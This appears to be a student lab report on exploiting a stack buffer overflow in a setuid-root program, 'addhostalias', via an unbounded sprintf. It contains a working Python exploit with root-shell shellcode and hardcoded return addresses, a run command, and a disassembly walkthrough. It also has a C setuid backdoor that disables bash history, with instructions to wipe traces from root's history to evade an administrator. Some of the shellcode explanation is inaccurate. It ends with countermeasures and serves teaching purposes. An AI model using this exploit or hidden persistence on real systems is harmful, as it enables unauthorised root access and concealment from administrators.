


# Report Lab 2

### How our exploit works

Our exploit overwrites the return address of `add_alias` to point towards a nopslide which runs into shellcode that opens up a shell with root access. The shell has root access due to that addhost that runs the exploit has the setuid bit set and root is owner.

### How we came up with our exploit

We constructed a string in the python script `exploit.py` which adds a nopslide, the exploit, and an address together. The goal was for our string to overwrite the return address of the function `add_alias` when it used our malicious string, provided as an argument, in its buffer. The reason we are able to overwrite the return address by using this buffer is because the function used to fill the buffer, `sprintf`, doesn't limit the amount of character written to the buffer, in contrast to `snprintf`.

In order to find out how long our malicious string needed to be in order for the last character to overwrite the return address we ran the program in gdb with the alphabet ("AAAABBBB..." repeated 3-4 times on different trials) as our input argument instead of of malicious string. We could then use "info frame" in order to check which character had overwritten the return address, allowing us to know the needed length of our malicious string. This length turned out to be 261 characters. Since the shellcode is 75 characters, we used 185 characters for the nopslide, and the final character was the address we overwrote the return address with.

Since our malicious string is read into the buffer, it will exist in both args and local variables in the memory. We also used gdb to find out where the local variables are so that we could overwrite the return address with the address pointing towards local variables. Due to environmental differences caused by gdb and ssh we tried both higher and lower values than what gdb said. We ended up with 0xbffffa80 for ssh and 0xbffff9b4 for running locally in the vm.

### How to run the exploit
run 
```bash
addhostalias "$(python exploit.py)" a a
```

### Screenshots
Using gdb in order to find the memory address of locals.



Running the exploit



### Script
```py
import struct
shellcode = ('\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80'
            +'\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0'
            +'\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80'
            +'\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68'
            +'\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0'
            +'\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90'
            +'\x90\x90\x90\x90\x90\x90\x90\x90\x90')


# |---- Is of by one for some reason
# V 
eip = struct.pack("I",0xbffffa80) 
# Length of the shell-code hex is 75, hence we need to subtract it from the approx length of buffer
# Length of buffer found by trial and error in GDB
nopslide = "\x90"*(260-75)
print(nopslide+shellcode+eip)
```

### Persistent root access
To gain persistance, we wrote a program to open bash that we compiled on dvader. Then we used the exploit to get root shell access to run:
```bash
chown root program
chmod 4755 program
```
This changes the program's owner to root and sets the SUID bit. Basically anyone who runs the program runs it with the privileges of 
the owner, in this case root. Which results in a root shell. Apparently bash ignores effective user ID when it's started with `execve`, that's why we use `setreuid(0,0)` which sets both effective and real UID to root.

To hide the persistant access from an admin, `setenv()` is used to make bash not storing the command history. The only manual thing that has to be done is removing the traces of `chown` and `chmod` from root's `.bash_history`. Which can be done from the "no history" shell once it's setup.

```c
#include <unistd.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char *argv[]) {
        char *args[] = {"/bin/bash", NULL};
        setenv("HISTFILE", "/dev/null", 1);
        setenv("HISTSIZE", "0", 1);
        setreuid(0,0);

        execve("/bin/bash", args, NULL);
        return(0);
}
```

### Hints
A comment about hints and resources. We primarily used the `.bash_history` file on dvader and the provided video material as inspiration for out exploit. Extensive googling and a hex calculator was also used.

### Instructions
As mentioned previously, the main vulnerability is that the special user id bit is set for the binary and that root is owner. This means that the program is run with root privileges, and any process that spawns from it can have the same level of privileges. One important point that the shellcode comments make are the lack of NULL bytes, this is because it's a string terminator on unix and if it is included as the argument, it terminates the command string. Therefore they are actively avoided in the exploit. That's why instead of writing a zero (\00) to a register (to set the UID bit to 0) the register is xor'd with itself (`31 c0`). To make it slightly easier to read, we built a binary of the hex representation of shellcode and deassemblied it.

`89 c3`, is a call to the operating system's interrupt handler, 80 is the code for system call. Which system call is determined by the `eax` register, which on line is 31, geteuid. The zero byte bypass makes sense here since it's used to place 00..0031 (32-bit) into `eax`, but 00 would render the exploit useless. Instead `eax` is first cleared with self xoring and then 31 is put in the least significant byte with `%al`. The return value of the system call is put in `eax` and is copied over to `ebx` because that's the register used for single arguments to system calls. The next system call is 46 `setreuid`, which set's the uid to 0. The same process is repeated for group id. Especially the highlighted instruction puts 47 in the least significant byte of `eax` to act as argument to the system call interrupt, it's the code for setregid.


```
   0:	b9 ff ff ff ff       	mov    $0xffffffff,%ecx
   5:	31 c0                	xor    %eax,%eax        <-- Highlighted
   7:	b0 31                	mov    $0x31,%al
   9:	cd 80                	int    $0x80
   b:	89 c3                	mov    %eax,%ebx        <-- Highlighted
   d:	31 c0                	xor    %eax,%eax
   f:	b0 46                	mov    $0x46,%al
  11:	cd 80                	int    $0x80
  13:	31 c0                	xor    %eax,%eax
  15:	b0 32                	mov    $0x32,%al
  17:	cd 80                	int    $0x80
  19:	89 c3                	mov    %eax,%ebx        
  1b:	b0 31                	mov    $0x31,%al
  1d:	b0 47                	mov    $0x47,%al        <-- Highlighted
  1f:	cd 80                	int    $0x80
  21:	31 c0                	xor    %eax,%eax
  23:	31 d2                	xor    %edx,%edx
  25:	52                   	push   %edx
  26:	68 2f 2f 73 68       	push   $0x68732f2f
  2b:	68 2f 62 69 6e       	push   $0x6e69622f
  30:	89 e3                	mov    %esp,%ebx
  32:	52                   	push   %edx
  33:	53                   	push   %ebx
  34:	89 e1                	mov    %esp,%ecx
  36:	b0 0b                	mov    $0xb,%al
  38:	cd 80                	int    $0x80
  3a:	31 c0                	xor    %eax,%eax
  3c:	40                   	inc    %eax
  3d:	cd 80                	int    $0x80
  3f:	90                   	nop
... (more nops)
```


### Countermeasures
- Language: If `snprinf` takes the size of the buffer as an argument, preventing buffer overflows. If it was used instead of `sprintf` then the exploit would not be possible. Using a static analyzer like Clang would help in detecting similar issues.

- Run-time: Using the fstack-protector flag makes the compiler implement canaries after buffers meaning that the buffer overflow would be detected during run-time.

- OS: Address obfuscation can be used in order to make it more difficult to know what to set the return address to. You can also change the file permissions such that only root users can execute the program. If the point of the program is to allow non-root users to add host aliases then this countermeasure would defy the programs reason to exist.